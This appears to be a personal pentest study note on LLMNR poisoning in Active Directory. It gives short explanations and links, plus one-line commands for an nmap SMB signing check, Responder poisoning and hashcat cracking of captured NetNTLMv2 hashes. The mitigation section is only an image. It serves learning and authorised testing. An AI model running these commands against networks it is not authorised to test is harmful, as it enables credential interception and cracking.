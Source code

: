 #ActiveDirectory #LLMNR

---
# links
https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks

Overview : https://www.hackingarticles.in/a-detailed-guide-on-responder-llmnr-poisoning/

TCM : https://tcm-sec.com/llmnr-poisoning-and-how-to-prevent-it/
TCM Video :https://academy.tcm-sec.com/courses/1152300/lectures/48477222

--- 
# Overview
What is it?
	Link local multicast name resolution
	used for to identify host when DNS fails
	Previously NBT-NS
MITM Attack
	capture usernames and hashes

## Tools used
#nmap/smb 
```
nmap --script=smb2-security-mode.nse -p445 "ip" 
```



#Responder

```
sudo responder -l tun0 -dwP
```

```
sudo python3 Responder.py -I wlp0s20f3 -Pv
```
## Cracking LLMNR Hashes
#LLMNR #hashes/LLMNR

hashcat
```
hashcat -m 5600 'hashfile (.txt)' /usr/share/wordlists/rockyou.txt
```
![[Pasted image 20240909093721.png]]

## Mitigation
#mitigation/LLMNR
![[Pasted image 20240909094257.png]]